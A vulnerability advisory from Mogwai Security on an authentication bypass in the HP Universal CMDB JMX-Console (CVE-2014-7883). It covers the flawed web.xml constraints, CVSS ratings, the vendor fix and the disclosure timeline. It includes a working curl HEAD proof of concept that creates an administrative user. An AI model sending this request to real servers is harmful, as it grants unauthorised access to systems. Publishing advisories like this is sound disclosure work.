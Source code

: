 ```yaml
---
layout: page
title: Hewlett-Packard UCMDB - JMX-Console Authentication Bypass
id: MSA-2015-02
categories: [advisory]
---
```


<table>
    <tr>
        <td>Title</td>
        <td>{{page.title}}</td>
    </tr>
    <tr>
        <td>Id</td>
        <td>{{page.id}}</td>
    </tr>
    <tr>
        <td>CVE</td>
        <td>CVE-2014-7883</td>
    </tr>
    <tr>
        <td>Product</td>
        <td>Hewlett-Packard Universal CMDB (UCMDB)  </td>
    </tr>
    <tr>
        <td>Affected versions</td>
        <td>UCMDB 10.10 (Other versions might also be affected)</td>
    </tr>
    <tr>
        <td>Impact</td>
        <td>high</td>
    </tr>
    <tr>
        <td>Remote</td>
        <td>yes</td>
    </tr>
    <tr>
        <td>Product link</td>
        <td>http://www8.hp.com/us/en/software-solutions/configuration-management-system-database/index.html</td>
    </tr>
    <tr>
        <td>Reported</td>
        <td>14/11/2014</td>
    </tr>
    <tr>
        <td>By</td>
        <td>Hans-Martin Muench (Mogwai, IT-Sicherheitsberatung Muench)</td>
    </tr>
</table>


Vendor's Description of the Software:
-------------------------------------
The HP Universal CMDB (UCMDB) automatically collects and manages accurate and
current business service definitions, associated infrastructure relationships and
detailed information on the assets, and is a central component in many of the key processes in your
IT organization, such as change management, asset management, service management, and business
service management. The UCMDB ensures that these processes can rely on comprehensive and
true data for all business services. Together with HP UCMDB Configuration Manager
(UCMDB-CM) you can standardize your IT environments, and make sure they comply with clear
policies, and defined authorization process.
Many IT organizations turn to a CMDB and configuration management processes to create a
shared single version of truth to support business service management, IT service management,
change management, and asset management initiatives. These initiatives help align IT efforts
with business requirements and run IT operations more efficiently and effectively.
The initiatives success depends on the CMDB providing a complete view into the
configuration items (CIs) and assets as well as how various IT elements relate together to deliver
the business service.


Business recommendation:
------------------------
Apply configuration changes from HP  
https://softwaresupport.hp.com/group/softwaresupport/search-result/-/facetsearch/document/KM01351169

CVSS2 Ratings
-------------

<table>
    <tr>
        <td>CVSS Base Score</td>
        <td>6.4</td>
    </tr>
    <tr>
        <td>Impact Subscore</td>
        <td>4.9</td>
    </tr>
    <tr>
        <td>Exploitability Subscore</td>
        <td>10</td>
    </tr>
    <tr>
        <td>CVSS v2 Vector</td>
        <td>(AV:N/AC:L/Au:N/C:P/I:P/A:N)</td>
    </tr>
</table>


Vulnerability description
----------------------------
UCMB administrators heavily rely on a JMX-Console, which is installed by
default.
The JMX-Console web application in UCMDB performs access control only for
the GET and POST methods, which allows remote attackers to send requests
to this application's GET handler by using a different method (for example
HEAD).

The web.xml file of the JMX Console contains following security constrains:

```
<security-constraint>
<web-resource-collection>
<web-resource-name>Protected Pages</web-resource-name>
<url-pattern>/*</url-pattern>
<http-method>GET</http-method>
<http-method>POST</http-method>
</web-resource-collection>
<auth-constraint>
<role-name>sysadmin</role-name>
</auth-constraint>
</security-constraint>

<security-constraint>
<web-resource-collection>
<web-resource-name>Callhome Servlet</web-resource-name>
<url-pattern>/callhome</url-pattern>
<http-method>GET</http-method>
<http-method>POST</http-method>
</web-resource-collection>
</security-constraint>
```

This vulnerability is identical with CVE-2010-0738 (JBoss JMX-Console
Authentication bypass). This can be used to create a new account which
can then be used to access the JMX console.

Proof of concept:
-------------------
The following Curl command will send a HEAD request to create a new user
"pocuser" in the UCMDB Backend:

```bash
curl -I
"http://foobar:8080/jmx-console/HtmlAdaptor?action=invokeOpByName&name=UCMDB%3Aservice%3DAuthorization+Services&methodName=createUser&arg0=&arg1=zdi-poc&arg2=pocuser&arg3=zdi-poc&arg4=pocuser"
```

Disclosure timeline:
--------------------

<table>
    <tr>
        <td>14/11/2014</td>
        <td>Reporting issue to HP</td>
    </tr>
    <tr>
        <td>18/11/2014</td>
        <td>Re-Reporting, as no acknowledge received</td>
    </tr>
    <tr>
        <td>18/11/2014</td>
        <td>Acknowledge from HP</td>
    </tr>
    <tr>
        <td>02/01/2015</td>
        <td>Requesting status update from HP</td>
    </tr>
    <tr>
        <td>29/01/2015</td>
        <td>Requesting status update from HP</td>
    </tr>
    <tr>
        <td>31/01/2015</td>
        <td>Response from HP, they plan to release the advisory next week</td>
    </tr>
    <tr>
        <td>05/02/2015</td>
        <td>HP releases security bulletin</td>
    </tr>
    <tr>
        <td>03/02/2015</td>
        <td>Mogwai security bulletin release</td>
    </tr>
</table>

Advisory URL: https://www.mogwaisecurity.de/#lab


Mogwai, IT-Sicherheitsberatung Muench  
Steinhoevelstrasse 2/2  
89075 Ulm (Germany)  

info@mogwaisecurity.de
